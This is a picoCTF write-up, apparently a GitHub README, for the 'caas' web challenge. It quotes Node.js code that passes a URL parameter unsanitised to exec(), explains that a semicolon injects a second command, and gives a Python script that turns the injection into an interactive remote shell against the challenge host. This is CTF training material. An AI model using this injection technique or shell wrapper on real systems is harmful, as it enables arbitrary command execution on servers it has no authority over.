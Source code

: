 # caas 
## picoctf web

[solve.py](solve.py)


### Its a web challenge from PicoCTF
We got a webpage with a input field which do cowsay commad with input value when input event is triggered.

## Vulnerable Code

```js
app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
 ```
 
 Here we can see exec is used which is one of the dangerous function and other factor is there is no input sanitations are applied. If a user wants to execute system commmads it becomes easy.

## POC

As we know about the vuln we can put a semi-colan ```;``` to gain arbitrary command execution

## Exploitaion

A simple python script using cmd module
```python
import requests
import cmd

url = "https://caas.mars.picoctf.net/cowsay/hi;"

class Caas(cmd.Cmd):
	prompt = "(caas) => "

	def __init__(self):
		super(Caas, self).__init__()
		self.url = url 
		self.completedefault = None
	def default(self, args):
		if args in ['exit', 'EXIT', 'quit', 'QUIT']:
			exit()
		r = requests.get(self.url+str(args))
		print(r.text)

if __name__=='__main__':
	Caas().cmdloop()
```
